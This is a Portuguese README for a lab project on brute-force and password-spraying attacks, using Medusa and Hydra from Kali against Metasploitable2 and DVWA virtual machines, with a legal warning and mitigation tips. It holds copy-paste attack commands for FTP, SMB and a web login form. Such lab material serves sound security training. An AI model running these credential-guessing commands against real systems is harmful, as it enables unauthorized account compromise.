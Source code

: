 # Medusa Lab — Kali + Metasploitable2 (VirtualBox)

**Projeto:** Laboratório de força bruta e password spraying usando Medusa (Kali) contra VMs vulneráveis (Metasploitable2 / DVWA).

**Autor:** João Paulo

---

## Conteúdo deste pacote
- `README.md` — este arquivo (detalhado).
- `run_all_tests.sh` — script para executar testes automatizados (FTP, SMB, DVWA/Hydra) e coletar logs.
- `users.txt` — wordlist de usuários de exemplo.
- `passwords.txt` — wordlist de senhas de exemplo.
- `Relatorio_Medusa_Lab.docx` — relatório Word gerado anteriormente.

---

## Aviso legal e ética
Este material é **apenas para uso em ambiente de laboratório controlado**. Não execute esses testes em sistemas que você não possui ou não tem autorização explícita para testar. Uso indevido é ilegal e antiético.

---

## Pré-requisitos
- Host com VirtualBox (versão recomendada 6.x/7.x).
- ISOs/VMs: Kali Linux (atacante) e Metasploitable2 (alvo). DVWA opcional.
- Kali atualizado e com ferramentas instaladas (medusa, hydra, enum4linux, smbclient, smbmap, tcpdump).

Instalação rápida no Kali:
```bash
sudo apt update && sudo apt upgrade -y
sudo apt install medusa hydra enum4linux smbclient smbmap net-tools tcpdump -y
```

---

## Rede recomendada
Use **Host-Only** ou **Internal Network** no VirtualBox para isolar o laboratório. Exemplo de rede: `192.168.56.0/24`.

IPs de exemplo:
- Kali: `192.168.56.100`
- Metasploitable2: `192.168.56.101`
- DVWA (se separado): `192.168.56.102`

---

## Arquivos de wordlist (exemplos)
- `users.txt` — lista curta de usuários comuns.
- `passwords.txt` — lista curta de senhas fracas para teste.

> Substitua por wordlists maiores (ex: `rockyou.txt`, SecLists) apenas em laboratório — grandes wordlists geram muito tráfego e podem travar alvos.

---

## Scripts
### run_all_tests.sh
Local: `run_all_tests.sh`
Descrição: executa Medusa para FTP e SMB e Hydra para DVWA, salvando saídas e gerando hashes dos logs.

Uso:
1. Coloque o script em `/home/kali/` (ou qualquer diretório) e torne executável:
```bash
chmod +x run_all_tests.sh
```
2. Edite variáveis no topo do script (TARGET_FTP, TARGET_SMB, TARGET_DVWA, caminhos de wordlists).
3. Execute:
```bash
./run_all_tests.sh
```

---

## Exemplos de comandos (copiar/colar)
### Medusa — FTP (usuário único)
```bash
medusa -h 192.168.56.101 -u ftp -P /home/kali/wordlists/passwords.txt -M ftp -T 8 -f -O /home/kali/medusa_ftp_results.txt
```

### Medusa — FTP (lista de usuários)
```bash
medusa -M ftp -h 192.168.56.101 -U /home/kali/wordlists/users.txt -P /home/kali/wordlists/passwords.txt -T 6 -O /home/kali/medusa_ftp_multi.txt
```

### Hydra — DVWA (web form)
```bash
hydra -L /home/kali/wordlists/users.txt -P /home/kali/wordlists/passwords.txt 192.168.56.102 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=incorrect" -t 8 -V -w 5
```

### Medusa — SMB (password spraying)
```bash
medusa -M smbnt -h 192.168.56.101 -U /home/kali/wordlists/users.txt -P /home/kali/wordlists/passwords.txt -T 8 -O /home/kali/medusa_smb_results.txt
```

---

## Coleta de evidências
- Use `-O` no Medusa para salvar saída.
- Capture tráfego com tcpdump:
```bash
sudo tcpdump -i any host 192.168.56.101 -w /home/kali/capturas/capture.pcap
```
- Gere checksums dos logs:
```bash
sha256sum /home/kali/medusa_*.txt > /home/kali/log_hashes.sha256
```

---

## Recomendações rápidas de mitigação
- Senhas fortes e políticas de rotação.
- Rate limiting / account lockout.
- MFA onde possível.
- Usar SFTP/FTPS em vez de FTP.
- Monitoramento e alertas (fail2ban, IDS).

---

## Como personalizar
1. Edite as wordlists em `users.txt` e `passwords.txt`.
2. Ajuste `run_all_tests.sh` para seus IPs e caminhos.
3. Para testes maiores, use `rockyou.txt` ou SecLists em `/usr/share/wordlists/`.

---

## Nota final
Mantenha logs e evidências organizados. Ao produzir seu relatório final, inclua evidências (saídas, pcap, screenshots) e as recomendações de mitigação.


